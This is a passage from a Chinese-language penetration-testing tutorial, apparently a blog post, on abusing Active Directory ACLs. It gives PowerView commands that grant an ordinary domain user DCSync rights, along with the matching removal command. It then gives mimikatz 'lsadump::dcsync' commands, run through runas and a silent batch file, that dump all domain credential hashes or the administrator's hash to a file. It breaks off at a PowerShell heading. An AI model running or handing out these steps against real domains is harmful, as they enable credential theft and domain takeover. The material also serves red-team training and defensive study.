 **利用方法：**

添加ACE的命令如下：

```
Add-DomainObjectAcl -TargetIdentity "DC=test,DC=com" -PrincipalIdentity test1 -Rights DCSync -Verbose
```

**补充：**

删除ACE的命令：

```
Remove-DomainObjectAcl -TargetIdentity "DC=test,DC=com" -PrincipalIdentity test1 -Rights DCSync -Verbose
```

**注：**

关于更多ACL的内容可参考之前的文章：[《渗透技巧——Windows下的Access Control List》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E4%B8%8B%E7%9A%84Access-Control-List/)

使用域用户test1调用DCSync的方法如下：

#### 1.在域内一台登录了test1用户的主机上面，直接使用mimikatz的DCSync功能

```
mimikatz.exe privilege::debug "lsadump::dcsync /domain:test.com /all /csv" exit
```

#### 2.使用runas实现登录test1用户，再使用DCSync

(1)弹出cmd

```
runas /noprofile /user:test\test1 cmd
```

弹出的cmd下执行如下命令：

```
mimikatz.exe privilege::debug "lsadump::dcsync /domain:test.com /all /csv" exit
```

(2)不弹框实现

```
runas /noprofile /user:test\test1 c:\test\1.bat
```

1.bat的内容如下:

```
c:\test\mimikatz.exe privilege::debug "lsadump::dcsync /domain:test.com /user:administrator /csv" exit>c:\test\1.txt
```

**注：**

同类的工具还有lsrunas、lsrunase和CPAU

#### 3.使用powershell实现登录test1用户，再使用DCSync

